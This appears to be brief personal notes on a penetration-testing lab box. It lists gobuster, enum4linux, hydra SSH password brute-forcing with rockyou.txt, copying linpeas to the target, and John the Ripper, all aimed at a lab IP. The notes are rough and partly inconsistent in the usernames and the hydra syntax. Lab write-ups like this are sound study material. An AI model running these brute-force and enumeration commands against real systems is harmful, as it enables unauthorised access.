 # Basic-Pentration-Testing
Port

GObuster  (Hidden directory on webserver ('development found ')
gobuster dir -u 10.10.111.148  --wordlist  /usr/share/wordlists/rockyou.txt 

enum4linux  ( Username "jan & "kay" found)
enum4linux/enum4linux.pl -a 10.10.111.148 | tee enum4linux.log


Hydra   (password  jay:armando found with ssh hydra)
hydra -l kay -P /usr/share/wordlists/rockyou.txt 10.10.111.148


linpeas    scp  /opt/linpeas/linpeas.sh  jan@ip:/dev/shm
( ye basically install hoti hy apni machine me phr ssh se target machine me)


john the ripper
